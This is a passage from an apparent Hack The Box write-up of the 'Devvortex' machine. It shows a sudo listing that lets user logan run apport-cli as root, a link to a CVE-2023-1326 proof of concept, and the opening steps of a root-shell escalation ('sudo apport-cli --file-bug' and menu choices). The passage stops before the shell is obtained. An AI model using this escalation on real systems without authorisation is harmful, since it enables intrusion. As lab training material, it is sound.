 ```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

I searched the internet regarding this tool vulnerability and found this [sudo apport-cli exploit](https://dcs3c.medium.com/cve-2023-1326-poc-c8f2a59d0e00).

I followed the below steps to get the root shell.

Step 1:

`sudo apport-cli --file-bug`

Step 2: As per the above-mentioned article, I can select any option to proceed further, but I selected **1**, and after I selected **2**, I pressed any key to move forward.

![Select option 1](https://github.com/het-desai/hackthebox/blob/main/devvortex/screenshots/option1.png "Select option 1")
